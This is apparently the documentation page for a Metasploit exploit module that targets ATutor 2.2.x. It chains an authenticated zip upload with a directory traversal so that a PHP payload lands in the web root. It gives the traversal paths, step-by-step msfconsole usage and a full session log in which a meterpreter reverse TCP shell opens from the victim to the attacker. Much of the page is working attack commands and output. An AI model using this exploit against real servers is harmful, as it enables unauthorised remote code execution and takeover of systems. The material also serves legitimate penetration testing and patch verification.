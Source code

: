 ## Vulnerable Application
This module exploits an arbitrary file upload vulnerability together with a directory traversal
flaw in ATutor versions 2.2.4, 2.2.2 and 2.2.1 in order to execute arbitrary commands.

This module first authenticates to ATutor, using a randomly generated token to get around the front end JavaScript verification
being used by the server. Next, the module generates a zip file containing a malicious PHP file.
The zip archive takes advantage of a directory traversal vulnerability that will cause the target to drop the PHP file
in the root server directory (`htdocs` for Windows and `html` for Linux targets) when unpacking the archive.
For Windows targets, the module assumes that the target server uses XAMPP.
However, users can override this default by setting a custom file traversal path.
The PHP file contains an encoded payload that allows for remote command execution on the target server.
The zip archive can be uploaded via two vectors, the `Import New Language` function and the `Patcher` function.
The module first uploads the archive via `Import New Language` and then attempts to execute the payload
via an HTTP GET request to the PHP file in the root server directory.
If no session is obtained, the module creates another zip archive, uploads it via the `Patcher` function
and then attempts to execute the payload the same way as before. If a session is obtained, the module automatically
attempts to remove the malicious PHP file from the present working directory.

The module is compatible with both Windows and Linux targets. Users can specify a target OS, or use the `Auto` target option.
In the latter case, the module will try to detect the target OS based on the `Server` header set by the target
in it's response to an HTTP request. If detection is not possible in this manner, the module will assume the target is Windows x64,
which seems to be the most likely target based on the ATutor documentation.

The module requires valid credentials for an ATutor account with admin privileges.
It has been successfully tested against ATutor 2.2.4 running on a Windows 10 machine that used XAMPP.

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/multi/http/atutor_upload_traversal`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the ATutor account]`
6. Do: `set PASSWORD [password for the ATutor account]`
7. Do: `set payload [payload]`
8. Do: `set LHOST [IP]`
9. Do: `exploit`

## Targets

```
Exploit targets:

   Id  Name
   --  ----
   0   Auto
   1   Linux
   2   Windows

```


## Options
### FILE_TRAVERSAL_PATH
This is the traversal path to get from the upload path to the root server directory.
It is used to make sure the malicious PHP is dropped in the root server directory when the zip being uploaded to the target
is unpacked on the server side. The default value for Windows targets is `..\\..\\..\\..\\..\\../xampp\\htdocs\\`.
This assumes the target uses XAMPP, as recommended in the ATutor documentation.
The default value for Linux targets is `../../../../../../var/www/html/`.

### PASSWORD
The password for the ATutor account to authenticate with. This option is required.

### TARGETURI
The base path to ATutor. The default value is `/ATutor/`.

### USERNAME
The username for the ATutor account to authenticate with. This option is required.

### WfsDelay
The number of seconds to wait for a session to be created. This advanced option is used by the module to verify
if exploitation via the `Import New Language` function succeeded. The default value is 3.

## Scenarios
### ATutor 2.2.4 running on Windows 10 (XAMPP)
```
msf5 exploit(multi/http/atutor_upload_traversal) > show options
                                                                                                                  
Module options (exploit/multi/http/atutor_upload_traversal):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   FILE_TRAVERSAL_PATH                   no        Traversal path to the root server directory. Default for Windows targets: `..\..\..\..\..\../xampp\htdocs\`. Linux Default: `../../../../../../var/www/html/.`
   PASSWORD             root             yes       Password to authenticate with
   Proxies                               no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS               192.168.1.12     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                80               yes       The target port (TCP)
   SRVHOST              0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT              8080             yes       The local port to listen on.
   SSL                  false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                               no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI            /ATutor/         yes       The base path to ATutor
   URIPATH                               no        The URI to use for this exploit (default is random)
   USERNAME             root             yes       Username to authenticate with
   VHOST                                 no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.28     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto


msf5 exploit(multi/http/atutor_upload_traversal) > run

[*] Started reverse TCP handler on 192.168.1.28:4444 
[+] Successfully authenticated as user 'root'. We have admin privileges!
[+] Identified the target OS as Win64.
[*] Setting payload to windows/x64/meterpreter/reverse_tcp.
[*] Attempting exploitation via the `Import New Language` function.
[*] Uploaded malicious PHP file vanwqiz.php.
[*] Executing payload via /vanwqiz.php/qnwgdu?=<payload>...
[*] Command Stager progress -  17.01% done (2046/12025 bytes)
[*] Command Stager progress -  34.03% done (4092/12025 bytes)
[*] Command Stager progress -  51.04% done (6138/12025 bytes)
[*] Command Stager progress -  68.06% done (8184/12025 bytes)
[*] Command Stager progress -  84.24% done (10130/12025 bytes)
[*] Sending stage (201283 bytes) to 192.168.1.12
[*] Meterpreter session 1 opened (192.168.1.28:4444 -> 192.168.1.12:49512) at 2020-06-12 13:50:47 -0400
[*] Command Stager progress - 100.00% done (12025/12025 bytes)
[!] Deleting malicious PHP file vanwqiz.php

meterpreter >

```
